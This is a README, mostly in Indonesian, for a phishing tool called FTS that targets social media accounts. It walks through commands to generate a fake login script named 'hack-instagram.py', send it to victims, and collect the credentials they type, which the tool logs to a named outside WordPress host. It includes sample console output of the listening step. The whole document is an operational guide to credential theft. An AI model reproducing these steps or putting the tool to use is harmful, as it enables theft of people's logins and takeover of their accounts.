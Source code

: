 <img src="https://raw.githubusercontent.com/LOoLzeC/FTS/master/img/Screenshot_2018-08-20-03-38-42-15.png"/>
############################################
<br>
PROJECT TITTLE : FTS (FUCK THE SOCIAL)
<br>
CODENAME       : Python
<br>
COPYRIGHT      : (C) Copyright 2018 LOoLzeC Scurity
<br>
CODED BY       : DERAY
<br>
FACEBOOK       : Deray
<br>
INSTAGRAM      : @reyy05
<br><br>
TAG            : HACKING,PHISING,SOCIAL ENGINEERING ATTACK,SOCIAL MEDIA AND FUCKING YOU ALL SOSMED!!!
<br>                                     
###########################################
<br><br>
(step satu)
<br><br>
membuat payload<br>
command contoh : SET PAYLOAD AkSIsrR.txt<br>
deskripsi : payload ini penting untuk listening nanti jika target sudah memasukan data login nya di payload yang sudah kita buat,btw tool ini harus terhubung ke internet,not offline ya akmj!1!
<br><br>
(step dua)
<br><br>
memberi output(nama file payload nya<br>
command contoh : SET OUTPUT hack-instagram.py<br>
deskripsi: perlu di ingat,jangan lupa namakan file nya dengan ekstensi py
<br><br>
(step tiga)
<br><br>
memberi nama query(akun apa yang ingin anda hack)<br>
command contoh : SET QUERY INSTAGRAM<br>
deskripsi: jika anda memasukan query instagram,atau tittle akun apa saja yang kalian mau,otomatis query ini akan masuk ke source payload kalian contoh outputnya di target [*] Login INSTAGRAM Lu Dulu Bos...
query INSTAGRAM itu adalah query yang sudah kalian buat dengan command SET QUERY
<br><br>
(step empat)
<br><br>
memberi tanggal dan tahun<br>
contoh command : SET DATE 2018/08<br>
deskripsi : nah ini juga penting buat listening nanti,ane kan redirect log nya hanya di satu host wordpress,jadi nanti listening nya di sini http://ailisgarcia.com/wp-content/uploads/2018/08/ AkSIsrR.txt
apakah sudah mengerti? 2018/08 dan AkSIsrR.txt itu adalah date dan log payload yang sudah kita input dengan command SET PAYLOAD AkSIsrR.txt dan SET DATE 2018/08
<br><br>
(step lima)
<br><br>
generate<br>
command : generate<br>
deskripsi: dan terjadilah disini pembuatan payload kalian buat untuk di eksekusi target nanti,tunggu sampe sukses.
<br><br>
(step terakhir)
<br><br>
sebarkan payload berekstensi hack-instagram.py ke target anda,dan biarkan dia mengeksekusinya dan memasukan log data login nya terlebih dahulu
<br><br>
sekarang tugas anda adalah mendengarkan sampai korban memasukan log data login mereka<br>
command : listen
<br><br>
atau untuk contoh manual listening command:
<br><br>
fts> SET PAYLOAD AkSIsrR.txt<br>
PAYLOAD => AkSIsrR.txt<br>
fts> SET QUERY INSTAGRAM<br>
QUERY => INSTAGRAM<br>
fts> SET DATE 2018/08<br>
DATE => 2018/08<br>
fts> listen<br>
[*] listening..."<br>
[*] LISTENING TARGET......"
<img src="https://raw.githubusercontent.com/LOoLzeC/FTS/master/img/Screenshot_2018-08-20-04-12-09-30.png"/>
ditunggu saja sampai korban memasukan log nya ^^<br><br><br>

bantuan command : help,?,show options


